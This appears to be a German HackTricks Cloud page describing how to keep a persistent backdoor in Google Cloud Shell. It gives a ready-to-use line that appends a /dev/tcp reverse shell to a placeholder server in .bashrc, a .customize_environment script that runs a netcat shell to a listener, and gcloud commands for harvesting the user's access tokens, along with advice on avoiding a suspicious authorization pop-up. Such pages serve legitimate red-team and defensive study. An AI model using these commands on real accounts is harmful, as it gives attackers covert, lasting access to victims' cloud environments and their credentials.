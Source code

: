 # GCP - Cloud Shell Persistenz

{% hint style="success" %}
Lernen & üben Sie AWS-Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Lernen & üben Sie GCP-Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github Repositories einreichen.

</details>
{% endhint %}

## Cloud Shell

Für weitere Informationen siehe:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistente Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) bietet Ihnen den Zugriff auf die Befehlszeile für Ihre Cloud-Ressourcen direkt über Ihren Browser ohne zusätzliche Kosten.

Sie können auf die Google Cloud Shell über die **Webkonsole** oder durch Ausführen von **`gcloud cloud-shell ssh`** zugreifen.

Diese Konsole bietet Angreifern einige interessante Möglichkeiten:

1. **Jeder Google-Benutzer mit Zugriff auf Google Cloud** hat Zugriff auf eine vollständig authentifizierte Cloud Shell-Instanz (auch Service-Konten können dies, selbst wenn sie Eigentümer der Organisation sind).
2. Diese Instanz wird **ihren Home-Verzeichnis für mindestens 120 Tage beibehalten**, wenn keine Aktivität stattfindet.
3. Es gibt **keine Möglichkeiten für eine Organisation, die Aktivität dieser Instanz zu überwachen**.

Das bedeutet im Grunde genommen, dass ein Angreifer eine Backdoor im Home-Verzeichnis des Benutzers platzieren kann und solange der Benutzer mindestens alle 120 Tage eine Verbindung zur GC Shell herstellt, wird die Backdoor überleben und der Angreifer wird jedes Mal eine Shell erhalten, wenn sie ausgeführt wird, einfach durch:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Es gibt eine weitere Datei im Home-Verzeichnis namens **`.customize_environment`**, die, wenn sie existiert, **jedes Mal ausgeführt wird**, wenn der Benutzer auf die **Cloud Shell** zugreift (wie bei der vorherigen Technik). Fügen Sie einfach die zuvor verwendete Hintertür oder eine ähnliche ein, um die Persistenz aufrechtzuerhalten, solange der Benutzer die Cloud Shell "häufig" verwendet:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Es ist wichtig zu beachten, dass beim **ersten Mal, wenn eine Aktion, die eine Authentifizierung erfordert, durchgeführt wird**, ein Pop-up-Autorisierungsfenster im Browser des Benutzers erscheint. Dieses Fenster muss akzeptiert werden, bevor der Befehl ausgeführt werden kann. Wenn ein unerwartetes Pop-up erscheint, könnte dies Misstrauen erregen und potenziell die verwendete Persistenzmethode gefährden.
{% endhint %}

Dies ist das Pop-up beim Ausführen von `gcloud projects list` aus der Cloud Shell (als Angreifer) in der Browsersitzung des Benutzers:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Wenn der Benutzer jedoch aktiv die Cloud Shell verwendet hat, wird das Pop-up nicht erscheinen und Sie können **Benutzertoken sammeln mit**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Wie die SSH-Verbindung hergestellt wird

Grundsätzlich werden diese 3 API-Aufrufe verwendet:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (fordert Sie auf, Ihren lokal erstellten öffentlichen Schlüssel hinzuzufügen)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (startet die Instanz)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (gibt Ihnen die IP des Google Cloud Shell)

Aber weitere Informationen finden Sie unter [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Referenzen

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
